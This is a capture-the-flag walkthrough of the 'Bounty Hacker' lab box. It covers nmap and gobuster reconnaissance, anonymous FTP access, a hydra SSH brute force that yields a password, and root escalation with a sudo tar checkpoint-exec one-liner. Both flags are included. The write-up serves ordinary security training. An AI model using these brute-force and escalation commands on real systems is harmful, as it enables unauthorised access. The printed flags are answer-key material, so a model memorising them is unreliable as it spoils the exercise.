







# Bounty Hacker

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, nikto, hydra

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.153.213

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-script SCRIPT: script scan<br>
-sV: probe open ports to determine service/version info<br>
-oN OUTPUT_FILE: output results to given filename<br>
```
nmap --script vuln -sV -oN nmap.txt 10.10.153.213
```



**EXPOSED PORT (SERVICE)**:<br>
    21 (ftp vsftpd 3.0.3),<br>
    22 (ssh OpenSSH 7.2p2),<br>
    80 (http Apache httpd 2.4.18),<br>

ftp anonymous login allowed

Enumerate hidden directories on website
```
gobuster dir -u 10.10.153.213 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```

No hidden directories found

Run Nikto web vuln scanner
```
nikto host --url 10.10.153.213
```



### 2. FTP

Anonymous login to ftp
```
ftp anonymous@10.10.153.213
```

2 files found in ftp



locks.txt might be possible passwords

### 3. Brute Force SSH

Use hydra to brute force ssh login
```
hydra -l "lin" -P locks.txt ssh://10.10.153.213 
```



**USERNAME**: lin
**PASSWORD**: RedDr4gonSynd1cat3



**USER FLAG**: THM{CR1M3_SyNd1C4T3}

### 4. Privilege Escalation

See sudo privileges for lin
```
sudo -l
```



lin can run /bin/tar as root

From https://gtfobins.github.io/gtfobins/tar/#sudo
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```



**ROOT FLAG**: THM{80UN7Y_h4cK3r}